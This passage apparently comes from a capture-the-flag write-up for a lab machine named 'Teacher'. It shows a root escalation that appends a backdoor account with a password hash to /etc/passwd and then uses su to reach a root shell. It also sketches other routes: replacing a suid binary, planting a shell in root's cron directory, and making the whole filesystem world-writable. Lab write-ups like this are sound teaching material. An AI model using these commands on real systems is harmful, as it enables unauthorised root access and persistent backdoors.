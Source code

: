 Now add myself:

```

giovanni@teacher:~/work/tmp$ echo 'oxdf:$1$xyz$cEUv8aN9ehjhMXG/kSFnM1:0:0:pwned:/root:/bin/bash' >> /etc/passwd

```

Now I just `su` to my new user, who is root:

```

giovanni@teacher:~/work/tmp$ su oxdf
Password: 
root@teacher:/home/giovanni/work/tmp#

```

#### Others

There are several other options that come immediately to mind. Point to a suid binary, and once writable, replace it with my own. Or get permissions to the cron directory for root, and write a shell in there. Or, if I wanted to be blunt, I could just point it at `/`, and let `chmod` recursively give me (and everyone else) access to the entire filesystem.